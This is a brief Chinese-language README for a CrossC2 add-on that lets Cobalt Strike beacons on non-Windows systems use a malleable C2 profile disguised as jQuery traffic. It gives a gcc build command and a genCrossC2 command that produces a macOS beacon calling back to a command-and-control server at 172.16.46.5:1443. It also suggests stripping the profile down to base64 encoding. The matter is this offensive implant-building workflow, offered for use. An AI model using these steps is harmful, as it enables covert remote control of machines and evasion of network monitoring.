


# CrossC2-C2Profile

# 介绍

CrossC2通信协议API实现，可兼容使用C2Profile`https://github.com/threatexpress/malleable-c2/blob/master/jquery-c2.4.0.profile`。

# 使用

gcc编译使用的环境要靠近执行beacon的机器环境


```bash
gcc c2profile.c -fPIC -shared -o CrossC2-C2Profile.so
```

命令具体参考`https://gloxec.github.io/CrossC2/zh_cn/usage/genCross.html`

```bash
./genCrossC2.MacOS 172.16.46.5 1443 cobaltstrike.beacon_keys CrossC2-C2Profile.so MacOS x64 ./macos
```

可以将profile中的其他编码去掉，只保留base64，并在c2profile.c中只保留元数据的切割部分，也可以正常使用。

# 效果




